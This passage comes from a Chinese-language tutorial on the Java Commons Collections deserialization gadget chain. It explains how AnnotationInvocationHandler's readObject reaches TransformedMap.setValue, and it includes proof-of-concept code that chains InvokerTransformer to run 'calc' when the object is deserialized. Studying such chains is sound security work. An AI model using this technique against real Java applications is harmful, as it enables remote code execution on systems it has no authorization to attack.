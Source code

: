 继续使用 IDEA 的 find Usages 寻找。



在 sun.reflect.annotation 中找到了对 setValue 方法的调用，并且是在 readObject 方法中调用。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747034123-aef3caff-3f0e-48b9-8938-e64e4cab3b22.png)



AnnotationInvocationHandler 类的 readObject 方法中遍历 memberValues 然后调用 setValue 方法。memberValues 是在构造函数中直接赋值的。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747039258-a0a3a63b-2819-4f7d-8396-b8d14e2fb35d.png)



因此，我们可以在序列化时将 memberValues 设置为一个用 TramformedMap.decorate 方法装饰过的 Map ，在反序列化时遍历这个 Map，同时调用 setValue 方法，进而把后面的利用链走通。



到这一步基本上能够把整条链串起来了。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747043580-3f9d30fc-360d-4454-a00b-9593799c5bf3.png)



下面我们可以尝试编写代码序列化一个 AnnotationInvocationHandler。需要注意以下几点：



 

1.  AnnotationInvocationHandler 是一个用于注解的动态代理。 
2.  构造器接收两个参数`Class<? extends Annotation> type, Map<String, Object> memberValues`，第一个是 type，需要输入一个继承于 Annotation 接口的注解类的 Class 对象，例如 Target.class，第二个是memberValues，一个 Map<String,Object> 对象。 

1.  另外，AnnotationInvocationHandler 没有 public 标识，所以是 default 类型，default 类型只允许在同一个包内访问。也就是 package sun.reflect.annotation，**因此，在实例化对象的时候，不能直接 new，而是要通过反射去获取。** 

 



```java
    public static void TestInvokerTransformer() throws Exception{
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<String,String> map = new HashMap<>();
        map.put("111","222");

        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
        
//        Runtime r = Runtime.getRuntime();
//        for(Map.Entry entry: transformedMap.entrySet()){
//            entry.setValue(r);
//        }
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        serialize(constructor.newInstance(Override.class, transformedMap));
        unserialize("abc.ser.bin");
    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("abc.ser.bin"));
        oos.writeObject(o);
    }
```
